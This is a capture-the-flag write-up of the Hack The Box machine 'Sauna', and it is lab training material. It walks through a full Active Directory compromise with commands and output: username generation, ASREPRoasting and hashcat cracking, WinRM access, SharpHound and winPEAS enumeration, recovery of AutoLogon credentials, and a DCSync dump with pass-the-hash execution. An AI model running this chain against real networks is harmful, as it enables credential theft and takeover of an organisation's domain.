




# Sauna

## Walkthrough Summary

[Sauna](https://app.hackthebox.com/machines/229) is an <mark style="color:green;">easy-rated</mark> box where an initial foothold is achieved via **web server enumeration** and [**ASREPRoasting**](../../theory/active-directory/asreproasting.md). By digging through domain relationships a service account with [**DCSync**](../../theory/active-directory/dcsync.md) **rights** is revealed which is eventually compromised after thorough **system enumeration**.

<div align="left" data-full-width="false">

<figure><figcaption><p>The attack chain of the Sauna box.</p></figcaption></figure>

</div>

<table><thead><tr><th width="90">Step</th><th>Action</th><th width="258">Tool</th><th>Achieved</th></tr></thead><tbody><tr><td>1</td><td>Web Server Enumeration</td><td><a href="https://www.mozilla.org/en-GB/firefox/new/">Mozilla</a>, <a href="https://github.com/shroudri/username_generator">Username-Generator</a>, <a href="https://github.com/urbanadventurer/username-anarchy">Username-Anarchy</a></td><td>Obtained usernames</td></tr><tr><td>2</td><td><a href="../../theory/active-directory/asreproasting.md">ASREPRoasting</a></td><td><a href="https://github.com/Pennyw0rth/NetExec">NetExec</a></td><td>Initial Foothold</td></tr><tr><td>3</td><td>Domain Enumeration</td><td><a href="https://github.com/BloodHoundAD/SharpHound">SharpHound.py</a>, <a href="https://github.com/BloodHoundAD/BloodHound">BloodHound</a></td><td>Privilege escalation path</td></tr><tr><td>4</td><td>System Enumeration</td><td><a href="https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS">WinPEAS</a></td><td>Privilege Escalation</td></tr><tr><td>5</td><td><a href="../../theory/active-directory/dcsync.md">DCSync attack</a></td><td><a href="https://github.com/Pennyw0rth/NetExec">NetExec</a></td><td>Domain Compromise</td></tr></tbody></table>

## Initial Foothold

### Hunting For Users

Let's start with a port scan.

```bash
$ sudo nmap 10.10.10.175 -T4 -A -open -p-

PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
80/tcp    open  http          Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
| http-methods:
|_  Potentially risky methods: TRACE
|_http-title: Egotistical Bank :: Home
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2024-03-17 16:06:55Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: EGOTISTICAL-BANK.LOCAL0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: EGOTISTICAL-BANK.LOCAL0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf        .NET Message Framing
49667/tcp open  msrpc         Microsoft Windows RPC
49674/tcp open  msrpc         Microsoft Windows RPC
49675/tcp open  msrpc         Microsoft Windows RPC
49717/tcp open  msrpc         Microsoft Windows RPC
49744/tcp open  msrpc         Microsoft Windows RPC
```

Some things to note down from Nmap's output:

1. Port 80 is an IIS web server with the title `Egotistical Bank`
2. Port 5985 is open (WinRM)
3. The domain name is `EGOTISTICAL-BANK.LOCAL`.

Before moving forward, we should add the domain on our local DNS file.

```bash
$ grep sauna /etc/hosts
10.10.10.175    egotistical-bank.local sauna sauna.egostistical-bank.local
```

By visiting the web server via the browser we can find some potential domain users (Figure 1).

<div align="left">

<figure><figcaption><p>Figure 1: Company employees and potential domain users.</p></figcaption></figure>

</div>

Based on the above information (Figure 1) we can create a custom username list.

```bash
# created a list with the names found
$ cat site_users
Fergus Smith
Shaun Coins
Hugo Bear
Bowie Taylor
Sophie Driver
Steven Kerb

# created username combinations based on the first and last name
$ username-generator -w site_users > user_gen.lst
$ username-anarchy -i site_users >> user_gen.lst

# deduplicated the generated user list
$ sort user_gen.lst | uniq > user_combined.lst

# check list
$ head user_combined.lst
bear
bear.h
bearh
bear.hugo
bearhugo
b.hugo
bhugo
bowie
bowiet
bowietay

# check username count
$ wc -l user_combined.lst
112 user_combined.lst
```

### ASREPRoasting

Now that we have a list of potential domain usernames, we can see if any of these is vulnerable to an [**ASREPRoasting** attack](../../theory/active-directory/asreproasting.md).


```bash
$ nxc ldap sauna -u user_combined.lst -p '' --asreproast asreproastable_users
SMB         10.10.10.175    445    SAUNA            [*] Windows 10 / Server 2019 Build 17763 x64 (name:SAUNA) (domain:EGOTISTICAL-BANK.LOCAL) (signing:True) (SMBv1:False)
LDAP        10.10.10.175    445    SAUNA            $krb5asrep$23$fsmith@EGOTISTICAL-BANK.LOCAL:11479065716b61537a84586f89149375$5c9d9d088de8eec6fb7969e9042174c150d1c11acd464077945dfe45cbb047f9d141181b7f9eecc9ef77561f3f48f0edc99545021a6c4affc41c50f05dac9dd29e6974ec2278a159a733973d54b1d858c1dc38f5536fd8fa7d8d55aa7657011074cbefdafc3a96af7c75c93adf74af43fc9b2f768c686cb09b278fddc769d8fc9b2759fa1708ca72d4ca484a4589a86f6aab0110593a45b08f4dc1816f4b4fdf3b7f45f7f31bf072c4c52a873187c52dc48438d9639f4d625001974e03f42035a5c69854452c8b721dcdf458b04085a8d15f78583735d627a227602fbb272672d6ba19859d2e8d18fcc3ffecf59d0913c90b4b886df7fce4448e6117deb6902f
```


We get back the hash of the user `fsmith` which we can try to crack.


```bash
$ hashcat -m 18200 asreproastable_users /usr/share/wordlists/rockyou.txt

<SNIP>
$krb5asrep$23$fsmith@EGOTISTICAL-BANK.LOCAL:114...<SNIP>...02f:Thestrokes23

# writing the password into a file
$ echo "Thestrokes23" > fsmith_pass
```


Next, let's see if `fsmith` has WinRM access.


```bash
$ nxc winrm sauna -u fsmith -p fsmith_pass
SMB         10.10.10.175    445    SAUNA            [*] Windows 10 / Server 2019 Build 17763 (name:SAUNA) (domain:EGOTISTICAL-BANK.LOCAL)
WINRM       10.10.10.175    5985   SAUNA            [+] EGOTISTICAL-BANK.LOCAL\fsmith:******** (Pwn3d!)
```


We can now log into the box and grab the `user.txt` file.

```bash
# logging in the target
$ evil-winrm -i sauna -u fsmith -p $(cat fsmith_pass)

<SNIP>

# compromising user.txt
*Evil-WinRM* PS C:\Users\FSmith\Documents> type ../Desktop/user.txt
0f5<REDACTED>48f
```

## Privilege Escalation

### Sniffing Out an Attack Path

With our foot in the box, we can now collect all the available domain information and start creating our attack plan.


```bash
# uploading binary to target
*Evil-WinRM* PS C:\Users\FSmith\Documents> upload SharpHound.exe

Info: Uploading /home/kali/htb/sauna/SharpHound.exe to C:\Users\FSmith\Documents\SharpHound.exe

Data: 965288 bytes of 965288 bytes copied

Info: Upload successful!

# executing binary
*Evil-WinRM* PS C:\Users\FSmith\Documents> .\SharpHound.exe -c all

<SNIP>

2024-03-17T11:42:59.9578257-07:00|INFORMATION|SharpHound Enumeration Completed at 11:42 AM on 3/17/2024! Happy Graphing!

# downlading output files to attack host
*Evil-WinRM* PS C:\Users\FSmith\Documents> download 20240317114259_BloodHound.zip

Info: Downloading C:\Users\FSmith\Documents\20240317114259_BloodHound.zip to 20240317114259_BloodHound.zip

Info: Download successful!
```


The below attack path (Figure 2) requires SYSTEM-level access in order to be exploited.

<figure><figcaption><p>Figure 2: Domain compromise path from the fsmith account.</p></figcaption></figure>

A more interesting attack path shows that the service account `svc_loanmgr` has [DCSync](../../theory/active-directory/dcsync.md) **rights** over the domain (Figure 3).

<figure><figcaption><p>Figure 3: Domain compromise path from the svc_loanmgr account.</p></figcaption></figure>

Since we don't have any way to compromise the `svc_loanmgr` account, let's up perform an automated system enumeration.

```bash
# uplooad winpeas to the target
*Evil-WinRM* PS C:\Users\FSmith\Documents> upload winPEAS.exe

Info: Uploading /home/kali/htb/sauna/winPEAS.exe to C:\Users\FSmith\Documents\winPEAS.exe

Data: 2549076 bytes of 2549076 bytes copied

Info: Upload successful!
# execute winpeas
*Evil-WinRM* PS C:\Users\FSmith\Documents> .\winPEAS.exe

<SNIP>

ÉÍÍÍÍÍÍÍÍÍ͹ Looking for AutoLogon credentials
    Some AutoLogon credentials were found
    DefaultDomainName             :  EGOTISTICALBANK
    DefaultUserName               :  EGOTISTICALBANK\svc_loanmanager
    DefaultPassword               :  Moneymakestheworldgoround!

<SNIP>
```

winPEAS managed to find exactly what we needed: `svc_loanmgr` cleartext password! Let's save it into a file.

```bash
$ echo "Moneymakestheworldgoround!" > svc_loanmgr_pass
```

### DCSync Attack

This account can perform a [**DCSync attack**](../../theory/active-directory/dcsync.md) and, therefore, obtain the `Administrator`'s NTLMv2 hash.

```bash
$ nxc smb 10.10.10.175 -u svc_loanmgr -p svc_loanmgr_pass --ntds --user administrator
SMB         10.10.10.175    445    SAUNA            [*] Windows 10 / Server 2019 Build 17763 x64 (name:SAUNA) (domain:EGOTISTICAL-BANK.LOCAL) (signing:True) (SMBv1:False)
SMB         10.10.10.175    445    SAUNA            [+] EGOTISTICAL-BANK.LOCAL\svc_loanmgr:********
SMB         10.10.10.175    445    SAUNA            [-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied
SMB         10.10.10.175    445    SAUNA            [+] Dumping the NTDS, this could take a while so go grab a redbull...
SMB         10.10.10.175    445    SAUNA            Administrator:500:aad3b435b51404eeaad3b435b51404ee:823452073d75b9d1cf70ebdf86c7f98e:::
SMB         10.10.10.175    445    SAUNA            [+] Dumped 1 NTDS hashes to /home/kali/.nxc/logs/SAUNA_10.10.10.175_2024-03-23_200648.ntds of which 1 were added to the database
SMB         10.10.10.175    445    SAUNA            [*] To extract only enabled accounts from the output file, run the following command:
SMB         10.10.10.175    445    SAUNA            [*] cat /home/kali/.nxc/logs/SAUNA_10.10.10.175_2024-03-23_200648.ntds | grep -iv disabled | cut -d ':' -f1
SMB         10.10.10.175    445    SAUNA            [*] grep -iv disabled /home/kali/.nxc/logs/SAUNA_10.10.10.175_2024-03-23_200648.ntds | cut -d ':' -f1
```

We can now use the NT hash of the `Administrator` and snatch the `root.txt` file fla🚩.

```bash
$ nxc smb 10.10.10.175 -u administrator -H 823452073d75b9d1cf70ebdf86c7f98e -X 'gc c:\users\administrator\desktop\root
.txt'
SMB         10.10.10.175    445    SAUNA            [*] Windows 10 / Server 2019 Build 17763 x64 (name:SAUNA) (domain:EGOTISTICAL-BANK.LOCAL) (signing:True) (SMBv1:False)
SMB         10.10.10.175    445    SAUNA            [+] EGOTISTICAL-BANK.LOCAL\administrator:******** (Pwn3d!)
SMB         10.10.10.175    445    SAUNA            [+] Executed command via wmiexec
SMB         10.10.10.175    445    SAUNA            2da<REDACTED>039
```
